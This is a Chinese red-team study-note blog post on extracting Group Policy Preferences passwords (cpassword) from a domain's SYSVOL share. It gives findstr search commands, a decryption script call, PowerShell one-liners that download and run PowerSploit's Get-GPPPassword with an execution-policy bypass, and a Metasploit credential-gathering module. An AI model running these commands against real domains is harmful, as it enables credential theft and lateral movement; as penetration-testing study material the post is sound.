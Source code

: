 ```yaml
---
title: 【内网学习笔记】16、组策略凭据获取
date: 2021-07-28 14:53:29
id: 210728-145329
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728144214.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 0、前言

SYSVOL 是活动目录里的一个用于存储域公共文件服务器副本的共享文件夹，在域中的所有域控之间进行复制，SYSVOL 在所有经过身份验证的域用户或者域信任用户具有读权限的活动目录域范围内共享，所有的域策略均存放在 C:\Windows\SYSVOL\DOMAIN\Policies\ 目录中。

管理员在域中新建一个组策略后，系统会自动在 SYSVOL 目录中生成一个 XML 文件。

该文件中保存了该组策略更新后的密码，该密码使用 AES-256 算法，但 2012 年微软公布了该密码的私钥，也就是说任何人都可以对其进行解密。

## 1、查找包含 cpassword 的 XML 文件

浏览 SYSVOL 文件夹，手动查找包含 cpassword 的 XML 文件

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728141704.png)

或者使用 findstr 自动搜索包含 cpassword 的 XML 文件

```
findstr /s /i "cpassword" C:\Windows\SYSVOL\*.xml
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728142511.png)

## 2、解密 cpassword 密文

### python 脚本

 Gpprefdecrypt.py 下载地址：[https://raw.githubusercontent.com/leonteale/pentestpackage/master/Gpprefdecrypt.py](https://raw.githubusercontent.com/leonteale/pentestpackage/master/Gpprefdecrypt.py)

```
python2.7 Gpprefdecrypt.py Wdkeu1drbxqPJm7YAtPtwBtyzcqO88hJUBDD2eseoY0
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728143302.png)

### PowerShell 脚本

PowerSploit 项目中提供了 Get-GPPPassword.ps1 脚本。

脚本下载地址：[https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1)

直接远程下载脚本执行：

```
PowerShell.exe -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1');Get-GPPPassword"
```

如果无法下载可以使用 github 代理

```
PowerShell.exe -Exec Bypass -C "IEX(New-Object Net.WebClient).DownloadString('https://ghproxy.com/https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1');Get-GPPPassword"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728144214.png)

或者下载到本地，执行也行

```
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

如果 PowerShell 由于处在受限模式以至于无法导入脚本，可以使用以下命令绕过。

```
powershell.exe -exec bypass -command "&{Import-Module .\Get-GPPPassword.ps1;Get-GPPPassword}"
```

### MSF

使用 post/windows/gather/credentials/gpp 模块也可以

```
use post/windows/gather/credentials/gpp
set session 1
run
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210728145138.png)

> 更多信息欢迎关注我的微信公众号：TeamsSix

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)
